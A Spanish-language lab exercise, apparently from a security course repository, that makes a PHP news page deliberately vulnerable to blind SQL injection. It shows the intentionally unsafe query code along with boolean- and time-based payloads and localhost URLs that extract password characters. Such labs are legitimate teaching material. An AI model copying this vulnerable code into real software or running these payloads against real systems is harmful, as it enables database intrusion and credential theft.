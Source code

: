 # Ejercicio 4: Implementar Blind SQL Injection

## 🎯 Objetivo
Modificar la aplicación para que sea vulnerable solo a **Blind SQL Injection** pero no a SQL Injection normal.

## 🔄 Cambios Necesarios

Para implementar Blind SQLi, necesitamos:

1. **Ocultar los resultados** de las consultas SQL
2. **Mantener la vulnerabilidad** en la concatenación
3. **Mostrar solo respuestas booleanas** (existe/no existe)
4. **Eliminar información detallada** de los errores

## 🛠️ Implementación

### Modificaciones en `news.php`:

```php
// CÓDIGO VULNERABLE SOLO A BLIND SQL INJECTION
// No muestra resultados directos, solo confirmación de existencia

if (isset($_GET['id'])) {
    $id = $_GET['id'];
    
    try {
        // VULNERABILIDAD: Concatenación directa (vulnerable)
        $query = "SELECT id FROM blog WHERE id = " . $id;
        $result = $pdo->query($query);
        
        // BLIND: Solo confirmamos si existe o no
        if ($result && $result->rowCount() > 0) {
            $article_exists = true;
        } else {
            $article_exists = false;
        }
    } catch(PDOException $e) {
        // BLIND: No mostramos errores específicos
        $article_exists = false;
    }
}
```

### Respuesta de la Aplicación:
- ✅ **Artículo existe:** Mensaje genérico "Artículo encontrado"
- ❌ **Artículo no existe:** Mensaje genérico "Artículo no encontrado"
- 🔒 **Sin datos sensibles:** No se muestran títulos, contenido, ni errores SQL

## 🧪 Diferencias con SQL Injection Normal

### ❌ SQL Injection Normal (Ya no funcionará):
```sql
-- Estas consultas YA NO mostrarán datos:
id = 1 UNION SELECT name,email,password FROM users
id = 1 UNION SELECT version(),database(),now()
```
**Resultado:** Solo "Artículo encontrado" - sin datos útiles

### ✅ Blind SQL Injection (Funcionará):
```sql
-- Estas consultas permitirán inferir información:
id = 1 AND (SELECT COUNT(*) FROM users) > 0    -- True/False
id = 1 AND (SELECT LENGTH(password) FROM users LIMIT 1) = 8    -- True/False  
id = 1 AND (SELECT SUBSTRING(database(),1,1)) = 'a'    -- True/False
```
**Resultado:** "Encontrado" o "No encontrado" - permite inferir datos

## 🔍 Técnicas de Explotación Blind SQLi

### 1. Boolean-based (Basado en Booleanos)
```sql
-- Verificar si existe tabla users
id = 1 AND (SELECT COUNT(*) FROM users) > 0

-- Verificar longitud de password del primer usuario  
id = 1 AND (SELECT LENGTH(password) FROM users LIMIT 1) = 8

-- Extraer primer carácter del nombre de BD
id = 1 AND (SELECT SUBSTRING(database(),1,1)) = 'a'
```

### 2. Time-based (Basado en Tiempo)
```sql
-- Si es verdadero, demora 5 segundos
id = 1 AND IF((SELECT COUNT(*) FROM users) > 0, SLEEP(5), 0)

-- Extraer datos carácter por carácter con demora
id = 1 AND IF((SELECT SUBSTRING(password,1,1) FROM users LIMIT 1) = 'a', SLEEP(3), 0)
```

## 📊 Proceso de Extracción Manual

### Fase 1: Confirmación de Vulnerabilidad
```sql
id = 1    -- Debería retornar "Artículo encontrado"
id = 999  -- Debería retornar "Artículo no encontrado"  
id = 1 AND 1=1  -- Debería retornar "Artículo encontrado"
id = 1 AND 1=2  -- Debería retornar "Artículo no encontrado"
```

### Fase 2: Reconocimiento de Base de Datos
```sql
-- Verificar existencia de tabla users
id = 1 AND (SELECT COUNT(*) FROM users) > 0

-- Contar usuarios
id = 1 AND (SELECT COUNT(*) FROM users) = 3

-- Verificar nombre de BD
id = 1 AND (SELECT SUBSTRING(database(),1,1)) = 'a'
```

### Fase 3: Extracción de Datos
```sql
-- Longitud del primer password
id = 1 AND (SELECT LENGTH(password) FROM users LIMIT 1) = 8

-- Primer carácter del password
id = 1 AND (SELECT SUBSTRING(password,1,1) FROM users LIMIT 1) = 'a'

-- Segundo carácter del password  
id = 1 AND (SELECT SUBSTRING(password,2,1) FROM users LIMIT 1) = 'd'
```

## ⚠️ Limitaciones del Blind SQLi

### Desventajas:
- 🐌 **Muy lento**: Requiere múltiples consultas
- 🔧 **Complejo**: Necesita automatización 
- 📊 **Inferencial**: Solo True/False responses
- ⏱️ **Time-consuming**: Extracción carácter por carácter

### Ventajas:
- 🔒 **Más sigiloso**: Menos detectable en logs
- 🌐 **Más común**: Muchas apps ocultan errores SQL
- 🛡️ **Bypasses WAF**: Evita firmas de UNION/SELECT
- 🎯 **Realista**: Escenario común en producción

## 🛠️ Herramientas para Automatización

### Manual:
- **Burp Suite**: Intruder con payloads booleanos
- **Browser**: Consultas manuales con observación

### Automatizado:  
- **SQLMap**: `--technique=B` (Boolean-based)
- **SQLMap**: `--technique=T` (Time-based)
- **Scripts custom**: Python/Bash para automatizar

## 📋 URLs de Prueba (Después de implementar)

### Verificación básica:
```
http://localhost/news.php?id=1
http://localhost/news.php?id=1%20AND%201=1  
http://localhost/news.php?id=1%20AND%201=2
```

### Reconocimiento:
```
http://localhost/news.php?id=1%20AND%20(SELECT%20COUNT(*)%20FROM%20users)%20%3E%200
```

### Extracción:
```
http://localhost/news.php?id=1%20AND%20(SELECT%20LENGTH(password)%20FROM%20users%20LIMIT%201)%20=%208
```

---

## 🎓 Conceptos Clave

1. **Blind SQLi**: Inyección sin output directo de datos
2. **Boolean-based**: Inferir datos por respuestas True/False  
3. **Time-based**: Usar delays para confirmar condiciones
4. **Inferencial**: Extraer datos bit a bit
5. **Automatización**: Necesaria para extracción práctica

---
**Estado:** 🔄 Listo para implementar
**Siguiente:** ✅ Implementar código Blind SQLi en `news.php`
